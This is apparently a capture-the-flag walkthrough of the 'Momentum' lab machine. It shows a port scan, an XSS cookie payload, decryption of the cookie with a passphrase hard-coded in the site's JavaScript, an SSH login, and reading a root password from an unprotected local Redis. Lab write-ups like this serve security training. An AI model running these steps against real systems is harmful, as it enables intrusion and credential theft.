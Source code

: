 ```yaml
---
layout: post
title:  "Momentum - Walkthrough"
categories: [hackmyvm,vulnhub,walkthrough]
pin: true
tags: [enumeration,js,npm,node,cookies,XSS,redis,guessing]
image: /images/momentum.jpg
---
```




## Port Scan

```console
┌──(alienum㉿kali)-[~]
└─$ nmap 10.0.2.239
22/tcp open  ssh
80/tcp open  http
```

## XSS

```
http://10.0.2.239/opus-details.php?id=<script>alert(document.cookie)</script>
```

Result : `cookie=U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt`

## Read main.js

```
view-source:http://10.0.2.239/js/main.js
```

```js
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```

## Decrypt

First install packages

```
npm install crypto-js
```

```javascript
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt("U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt", "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```

#### Result

```
┌──(alienum㉿kali)-[~/Desktop]
└─$ node decrypt.js
auxerre-<REMOVED>##
```

## SSH | Guess username

username : `auxerre`
password : `auxerre-<REMOVED>##`

## Redis

```sh
auxerre@Momentum:~$ ss -an | grep 6379
tcp    LISTEN  0        128                              127.0.0.1:6379                                             0.0.0.0:*                                   
tcp    LISTEN  0        128                                  [::1]:6379                                                [::]:*                 
```

#### Finding root password

```sh
auxerre@Momentum:~$ redis-cli
127.0.0.1:6379> KEYS *
1) "rootpass"
127.0.0.1:6379> GET rootpass
"m0mentum-<REMOVED>##"
127.0.0.1:6379>exit
auxerre@Momentum:~$ su root
Password:
root@Momentum:/home/auxerre# cd
root@Momentum:~#
```
